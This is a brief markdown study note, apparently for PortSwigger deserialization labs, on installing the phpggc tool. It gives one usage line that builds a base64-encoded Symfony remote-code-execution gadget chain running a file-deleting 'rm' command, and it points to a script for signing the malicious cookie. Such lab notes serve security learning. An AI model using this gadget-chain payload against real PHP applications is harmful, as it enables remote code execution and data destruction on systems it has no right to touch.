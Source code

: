 ## phpggc

### Installing
From git: https://github.com/ambionics/phpggc.git

### Usage
`phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0`

Notes: check out `docs/portswigger/deserialization/exploiting/signed_cookie.php` for php script to sign cookie
